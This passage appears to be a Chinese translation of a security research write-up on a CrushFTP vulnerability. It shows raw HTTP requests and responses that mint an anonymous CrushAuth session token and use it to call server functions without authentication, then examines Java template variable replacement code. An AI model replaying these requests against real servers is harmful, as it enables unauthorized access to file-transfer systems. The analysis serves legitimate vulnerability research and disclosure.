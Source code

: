 ```
Set-Cookie: currentAuth=vndQ; path=/; secure; SameSite=None
Set-Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; path=/; secure; SameSite=None; HttpOnly
Content-Length: 38
Date: Mon, 22 Apr 2024 21:24:38 GMT
Server: CrushFTP HTTP Server
P3P: policyref="/WebInterface/w3c/p3p.xml", CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Connection: close

The selected resource was not found.
```  
  
如上所述，将为 anonymous  
 用户返回令 CrushAuth  
 牌。现在应该可以访问 实现 ServerSessionAJAX  
 的 API。我们将确认，通过调用我们无权访问的 API 功能：该 zip  
 函数。如果匿名令牌正常工作，我们应该收到拒绝访问的消息，而不是“未找到所选资源”。  
```
POST /WebInterface/function/?c2f=vndQ&command=zip&path=aaa&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
```
HTTP/1.1 200 OKCache-Control: no-storePragma: no-cacheContent-Type: text/xml;charset=utf-8Date: Mon, 22 Apr 2024 21:31:58 GMTServer: CrushFTP HTTP ServerP3P: policyref="/WebInterface/w3c/p3p.xml", CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"Connection: closeContent-Length: 200<?xml version="1.0" encoding="UTF-8"?> <commandResult><response>You need download, upload permissions to zip a file:/bbbYou need upload permissions to zip a file:aaa</response></commandResult>
```  
  
完善！我们应该能够使用我们新铸造 anonymous 的令牌访问 ServerSessionAJAX 任何未经身份验证的功能。  
### Variable Replacement 变量替换  
  
说完这些，让我们继续查看已修补的 API 响应代码。事实证明，此代码路径负责替换 HTTPS 响应中存在的变量，充当服务器端模板引擎。例如，当响应中存在时 %hostname%  
 ，此代码将动态地将这些填充条目替换为适当的变量和数据。若要使用此代码路径，API 响应中的数据必须包含用于评估的模板模式。为清楚起见，添加了下面的代码注释。  
```
   public static String change_vars_to_values_static(String in_str, Properties user, Properties user_info, SessionCrush the_session) {
        try {
            if (in_str.indexOf(37) < 0 && in_str.indexOf(123) < 0 && in_str.indexOf(125) < 0 && in_str.indexOf(60) < 0) {
                return in_str;
            }
            String r1 = "%"; // Search for percent symbol delimiters, called r1 and r2
            String r2 = "%";
            while (r < 2) {
                String user_key2;
                String user_key;
                String key;
                int loc;
                String key2;
[..] // A large number of possible dynamic values, such as “hostname” and “heap_dump”, can be templated
                if (in_str.indexOf(String.valueOf(r1) + "hostname" + r2) >= 0) {
```